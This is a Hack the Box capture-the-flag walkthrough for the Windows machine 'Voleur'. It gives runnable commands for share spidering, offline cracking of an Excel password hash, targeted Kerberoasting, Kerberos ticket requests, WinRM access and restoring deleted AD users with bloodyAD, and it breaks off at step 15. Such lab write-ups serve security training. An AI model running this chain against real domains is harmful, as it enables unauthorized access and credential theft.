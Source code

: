 # Voleur

**Platform: Hack the Box**

**OS: Windows**

**Diffculty: Medium**


## Table of Contents
- [Key Learnings](#key-learnings)
- [Walkthrough](#walkthrough)
- [Remediation Summary](#remediation-summary)


## Key Learnings

- Familiarize myself with enumerating AD networks using Bloodhound
- Learn to abuse WriteOwner privilege using Impacket's owneredit.py script
- Give an account FullControl using Impacket's dacledit.py tool
- Enumerate and restore deleted user accounts on PowerShell
- Exploit ESC15 vulnerable template
- Add user to Domain Admin group with an LDAP shell


## **Disclaimer: Potential spoilers below**


## Walkthrough

1. Run nmap scan along with bloodhound

![image](https://github.com/user-attachments/assets/9374b63e-36de-4aa2-96d2-ef3957b8f57b)

2. Bloodhound doesn't give us a path from credentials given ryan.naylor. After enumerating using netexec smb, found an interesting IT share so download files with the spider_plus module

`nxc smb dc.voleur.htb -u ryan.naylor -p 'HollowOct31Nyt' -k -M spider_plus -o DOWNLOAD_FLAG=True`

![image](https://github.com/user-attachments/assets/ac3f931f-437f-47de-a391-d6399fff89d4)

3. Trying to open the .xlsx file shows that it's password protected, so use the office2john script and crack password offline.

![image](https://github.com/user-attachments/assets/dd5ebfc5-ce1e-40e0-827c-8f31349acbd9)

4. Get rid of the filename in the beginning and crack using hashcat. We get the password!

`hashcat -m 9600 excel_hash.txt /usr/share/wordlists/rockyou.txt`

![image](https://github.com/user-attachments/assets/d164a5a2-e75c-4848-9d22-dabd4e0ef5fc)

5. Open the password protected excel file and we get a list of user credentials

![image](https://github.com/user-attachments/assets/c2658702-3661-4c3f-bf1a-0eb0b3792eb3)

6. Using svc_ldap's credentials, can do a targetedKerberoast attack on svc_winrm which has CanPSRemote rights to the machine.

![image](https://github.com/user-attachments/assets/fcef36ad-42ad-4e1b-ba51-1c44018acac6)

7. First, get TGT for svc_ldap using impacket's getTGT.py script and set KRB5CCNAME environment variable to use the ccache file.

`getTGT.py -k -dc-ip dc.voleur.htb voleur.htb/svc_ldap:'[PASSWORD]'`

![image](https://github.com/user-attachments/assets/7341c702-d2a8-43d7-91b4-736c41cfc8e0)

8. Now run targetedKerberoast.py with kerberos authentication

`targetedKerberoast.py -k --dc-ip 10.129.61.59 --dc-host dc.voleur.htb -v -d voleur.htb`

![image](https://github.com/user-attachments/assets/b86fc911-0c80-4d28-9d3e-08694c182c9a)

9. Crack hash offline using hashcat

`hashcat -m 13100 targetedKerberoast.txt /usr/share/wordlists/rockyou.txt`

10. Now get svc_winrm's TGT using the same process as before

`getTGT.py -k -dc-ip dc.voleur.htb voleur.htb/svc_winrm:'[PASSWORD]'`

11. Set the KRB5CCNAME env variable to the svc_winrm ccache file and evil-winrm into the machine. Compromised user flag!

![image](https://github.com/user-attachments/assets/f0804929-bd52-43f2-b9b3-a7128bff4132)

12. Looking at BloodHound, svc_ldap user is part of the RESTORE_USERS group. Use svc_ldap to get TGT and enumerate deleted objects via bloodyAD. Use the special -c flag with LDAP OID control 1.2.840.113556.1.4.2064 to show deleted, tombstoned, and recycled objects.  

`bloodyAD -u svc_ldap -d voleur.htb -p '[PASSWORD]' --host dc.voleur.htb --dc-ip 10.129.16.120 -k get search -c 1.2.840.113556.1.4.2064 --resolve-sd --base 'CN=Deleted Objects,DC=voleur,DC=htb' --filter "(objectClass=*)" --attr sAMAccountName`

<img width="858" height="277" alt="image" src="https://github.com/user-attachments/assets/7b3ee745-6e3a-4a59-9560-97e12ab52aab" />

13. Restore todd.wolfe user using bloodyAD

`bloodyAD -u svc_ldap -d voleur.htb -p '[PASSWORD]' --host dc.voleur.htb --dc-ip 10.129.16.120 -k set restore 'todd.wolfe'`

<img width="852" height="76" alt="image" src="https://github.com/user-attachments/assets/dfc5cc81-0a1b-4568-8766-2f2cfe19a164" />

14. Get TGT for todd.wolfe to authenticate as user. Todd wolfe's password is in the Access excel file

<img width="659" height="71" alt="image" src="https://github.com/user-attachments/assets/2c3cb778-85c6-4675-ad58-024470cc24cf" />

15. 
